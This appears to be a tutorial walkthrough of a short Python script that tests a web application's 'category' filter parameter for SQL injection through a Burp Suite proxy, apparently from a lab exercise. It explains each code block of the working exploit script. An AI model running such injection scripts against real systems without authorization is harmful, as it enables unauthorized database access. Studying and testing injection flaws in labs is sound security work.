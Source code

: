 ### Importing Modules

```python
pythonCopy code
import requests
import sys
import urllib3

```

- `requests`: A library for sending HTTP requests.
- `sys`: Provides access to some variables used or maintained by the Python interpreter.
- `urllib3`: A powerful HTTP library for Python, used for working with URLs.

### Disabling Warnings

```python
pythonCopy code
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

```

- This line disables warnings about insecure HTTPS requests. When you make an HTTPS request to a server without a valid SSL certificate, urllib3 usually raises a warning. This line suppresses those warnings.

### Setting Proxies

```python
pythonCopy code
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

```

- This sets up a proxy configuration. It routes all HTTP and HTTPS traffic through a proxy server running at `127.0.0.1` (localhost) on port `8080`. This is often used in conjunction with tools like Burp Suite for intercepting and analyzing requests.

### Defining the Exploit Function

```python
pythonCopy code
def exploit_sqli(base_url, payload):
    target_url = f"{base_url}/filter?category={payload}"
    r = requests.get(target_url, verify=False, proxies=proxies)
    if "cat Grin" in r.text:
        return True
    else:
        return False

```

- `exploit_sqli(base_url, payload)`: This function attempts to exploit an SQL injection vulnerability.
    - `target_url = f"{base_url}/filter?category={payload}"`: Constructs the target URL by injecting the payload into the `category` parameter of the `filter` endpoint.
    - `r = requests.get(target_url, verify=False, proxies=proxies)`: Sends an HTTP GET request to the target URL with SSL verification disabled and using the defined proxy.
    - `if "cat Grin" in r.text`: Checks if the response contains the string `"cat Grin"`, which is used as an indicator of a successful SQL injection.
    - `return True`/`return False`: Returns `True` if the string is found, indicating a successful SQL injection, otherwise returns `False`.

### Main Execution Block

```python
pythonCopy code
if __name__ == "__main__":
    try:
        base_url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        print("[-] Usage: %s <url> <payload>" % sys.argv[0])
        print('[-] Example: %s www.example.com "1=1"' % sys.argv[0])
        sys.exit(-1)

    if exploit_sqli(base_url, payload):
        print("[+] SQL injection successfully!")
    else:
        print("[-] SQL injection unsuccessfully!")

```

- `if __name__ == "__main__":`: Ensures that the code block runs only if the script is executed directly, not when imported as a module.
- `try:`: Attempts to retrieve and strip the `base_url` and `payload` from the command-line arguments.
- `except IndexError:`: Handles the case where not enough arguments are provided, displaying usage instructions and exiting with an error code.
- `if exploit_sqli(base_url, payload):`: Calls the `exploit_sqli` function with the provided arguments.
    - Prints a success message if the SQL injection is successful.
    - Prints a failure message otherwise.

### Summary

This script is designed to test for SQL injection vulnerabilities by sending a crafted payload to a specified URL and checking the response for indicators of a successful injection. It uses proxies for traffic interception, which is useful for debugging or logging with tools like Burp Suite.
